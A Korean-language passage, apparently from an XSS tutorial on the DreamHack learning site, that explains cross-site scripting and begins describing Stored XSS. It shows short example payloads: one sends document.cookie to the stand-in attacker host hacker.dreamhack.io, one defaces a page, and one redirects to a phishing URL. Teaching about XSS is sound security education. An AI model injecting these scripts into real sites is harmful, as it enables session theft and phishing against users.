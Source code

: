 ### 쿠키 및 세션 탈취 공격 코드

```
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

더 자세히 설명하면, `image.src`를 설정하면 `src`에 대입된 주소로, 이미지를 가져오기 위한 `HTML` 리퀘스트를 보낸다.

여기서 현재 브라우저의 `document.cookie`를 가져와서 `?cookie = document.cookie`로 쿼리를 보내기 떄문에 공격자 주소로 현재 브라우저의 쿠키값이 전달되게 된다.

### 페이지 변조 공격 코드

```
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

### 위치 이동 공격 코드

```
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

`Stored XSS`와 `Reflected XSS`에 대해 [실습 모듈](https://learn.dreamhack.io/labs/2ec6c228-ff7e-46f1-9196-da5f5bd5f1f4)과 함께 조금 더 자세히 살펴보자.

### Stored XSS : 서버에 `저장`

`Stored XSS`는 **서버의 데이터베이스 또는 파일 등의 형태로 `저장`된 악성 스크립트를 조회할 때 발생하는 `XSS` 취약점이다.**

대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드 하는 방식이 있다. 게시물은 불특정 다수에게 보여지기 때문에 해당 기능에서 `XSS` 취약점이 존재하면 매우 높은 파급력을 가진다.
